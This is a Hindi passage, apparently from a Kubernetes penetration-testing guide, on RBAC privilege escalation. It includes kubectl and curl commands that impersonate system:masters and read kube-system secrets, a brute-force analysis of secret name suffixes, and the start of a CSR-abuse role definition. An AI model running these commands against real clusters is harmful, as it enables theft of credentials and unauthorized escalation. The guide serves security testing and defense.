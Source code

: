 एक [**उपयोगकर्ता अनुकरण**](https://kubernetes.io/docs/reference/access-authn-authz/authentication/#user-impersonation) विशेषता के साथ, एक हमलावर एक विशिष्ट खाता अनुकरण कर सकता है।

बस `kubectl` कमांड में `--as=<username>` पैरामीटर का उपयोग करें एक उपयोगकर्ता का अनुकरण करने के लिए, या `--as-group=<group>` का उपयोग करें एक समूह का अनुकरण करने के लिए:
```bash
kubectl get pods --as=system:serviceaccount:kube-system:default
kubectl get secrets --as=null --as-group=system:masters
```
या REST API का उपयोग करें:
```bash
curl -k -v -XGET -H "Authorization: Bearer <JWT TOKEN (of the impersonator)>" \
-H "Impersonate-Group: system:masters"\
-H "Impersonate-User: null" \
-H "Accept: application/json" \
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### Secrets की सूची बनाना

**Secrets की सूची बनाने की अनुमति एक हमलावर को वास्तव में secrets पढ़ने की अनुमति दे सकती है** REST API endpoint तक पहुँचकर:
```bash
curl -v -H "Authorization: Bearer <jwt_token>" https://<master_ip>:<port>/api/v1/namespaces/kube-system/secrets/
```
### एक गुप्त पढ़ना - टोकन आईडी का ब्रूट-फोर्सिंग

जब एक हमलावर के पास पढ़ने की अनुमति वाला टोकन होता है, तो उसे इसका उपयोग करने के लिए गुप्त का सही नाम चाहिए, जबकि व्यापक _**गुप्त सूचीबद्ध करने**_ की अनुमति के विपरीत, अभी भी कमजोरियाँ हैं। सिस्टम में डिफ़ॉल्ट सेवा खातों को सूचीबद्ध किया जा सकता है, प्रत्येक एक गुप्त के साथ जुड़ा होता है। इन गुप्तों का नाम संरचना होती है: एक स्थिर उपसर्ग के बाद एक यादृच्छिक पांच-चरित्र अल्फ़ान्यूमेरिक टोकन (कुछ वर्णों को छोड़कर) [स्रोत कोड](https://github.com/kubernetes/kubernetes/blob/8418cccaf6a7307479f1dfeafb0d2823c1c37802/staging/src/k8s.io/apimachinery/pkg/util/rand/rand.go#L83) के अनुसार।

टोकन एक सीमित 27-चरित्र सेट (`bcdfghjklmnpqrstvwxz2456789`) से उत्पन्न होता है, न कि पूर्ण अल्फ़ान्यूमेरिक रेंज से। यह सीमा कुल संभावित संयोजनों को 14,348,907 (27^5) तक कम कर देती है। परिणामस्वरूप, एक हमलावर संभवतः कुछ घंटों में टोकन का अनुमान लगाने के लिए एक ब्रूट-फोर्स हमले को निष्पादित कर सकता है, जो संवेदनशील सेवा खातों तक पहुँचने के द्वारा विशेषाधिकार वृद्धि की संभावना पैदा कर सकता है।

### प्रमाणपत्र हस्ताक्षर अनुरोध

यदि आपके पास संसाधन `certificatesigningrequests` में **`create`** क्रियाएँ हैं (या कम से कम `certificatesigningrequests/nodeClient` में)। आप एक **नए नोड** का नया CeSR **बना सकते हैं।**

[दस्तावेज़ के अनुसार, इन अनुरोधों को स्वचालित रूप से स्वीकृत करना संभव है](https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet-tls-bootstrapping/), तो इस मामले में आपको **अतिरिक्त अनुमतियों की आवश्यकता नहीं है**। यदि नहीं, तो आपको अनुरोध को स्वीकृत करने में सक्षम होना चाहिए, जिसका अर्थ है `certificatesigningrequests/approval` में अपडेट और `signers` में `approve` के साथ resourceName `<signerNameDomain>/<signerNamePath>` या `<signerNameDomain>/*`।

एक **भूमिका का उदाहरण** जिसमें सभी आवश्यक अनुमतियाँ हैं:
```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
name: csr-approver
rules:
- apiGroups:
- certificates.k8s.io
resources:
- certificatesigningrequests
verbs:
- get
- list
- watch
- create
```